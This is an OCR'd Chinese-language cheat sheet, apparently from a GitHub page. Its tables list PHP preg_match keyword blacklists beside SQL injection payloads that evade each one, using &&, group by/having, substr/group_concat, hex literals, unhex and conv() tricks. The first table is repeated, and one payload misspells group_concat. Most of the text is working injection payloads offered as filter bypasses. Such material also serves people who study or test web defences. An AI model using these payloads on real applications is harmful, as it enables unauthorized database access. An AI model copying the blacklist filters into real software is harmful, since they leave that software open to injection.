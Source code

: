 | 过滤关键字 | and  or  union  where |
| php 代码 | preg_match('/(and&#124;or&#124;union&#124;where)/i',$id) |
| 会过滤的攻击代码 | 1 && (select user from users where user_id = 1) = 'admin' |
| 绕过方式 | 1 && (select user from users limit 1) = 'admin' |

| 过滤关键字 | and  or  union  where |
| php 代码 | preg_match('/(and&#124;or&#124;union&#124;where)/i',$id) |
| 会过滤的攻击代码 | 1 && (select user from users where user_id = 1) = 'admin' |
| 绕过方式 | 1 && (select user from users limit 1) = 'admin' |

| 过滤关键字 | and, or, union, where, limit |
| php 代码 | preg_match('/(and&#124;or&#124;union&#124;where&#124;limit)/i', $id) |
| 会过滤的攻击代码 | 1 && (select user from users limit 1) = 'admin' |
| 绕过方式 | 1 && (select user from users group by user_id having user_id = 1) = 'admin'#user_id 聚合中 user_id 为 1 的 user 为 admin          |

| 过滤关键字 | and, or, union, where, limit, group by |
| php 代码 | preg_match('/(and&#124;or&#124;union&#124;where&#124;limit&#124;group by)/i', $id) |
| 会过滤的攻击代码 | 1 && (select user from users group by user_id having user_id = 1) = 'admin' |
| 绕过方式 | 1 && (select substr(group_concat(user_id),1,1) user from users ) = 1 |

| 过滤关键字 | and, or, union, where, limit, group by, select |
| php 代码 | preg_match('/(and&#124;or&#124;union&#124;where&#124;limit&#124;group by&#124;select)/i', $id) |
| 会过滤的攻击代码 | 1 && (select substr(gruop_concat(user_id),1,1) user from users) = 1 |
| 绕过方式 | 1 && substr(user,1,1) = 'a' |

| 过滤关键字 | and, or, union, where, limit, group by, select, ' |
| php 代码 | preg_match('/(and&#124;or&#124;union&#124;where&#124;limit&#124;group by&#124;select&#124;\')/i', $id) |
| 会过滤的攻击代码 | 1 && (select substr(gruop_concat(user_id),1,1) user from users) = 1 |
| 绕过方式 | 1 && user_id is not null 1 && substr(user,1,1) = 0x61
1 && substr(user,1,1) = unhex(61) |

| 过滤关键字 | and, or, union, where, limit, group by, select, ', hex |
| php 代码 | preg_match('/(and&#124;or&#124;union&#124;where&#124;limit&#124;group by&#124;select&#124;\'&#124;hex)/i', $id) |
| 会过滤的攻击代码 | 1 && substr(user,1,1) = unhex(61) |
| 绕过方式 | 1 && substr(user,1,1) = lower(conv(11,10,16)) #十进制的 11 转化为十六进制，并小写。 |
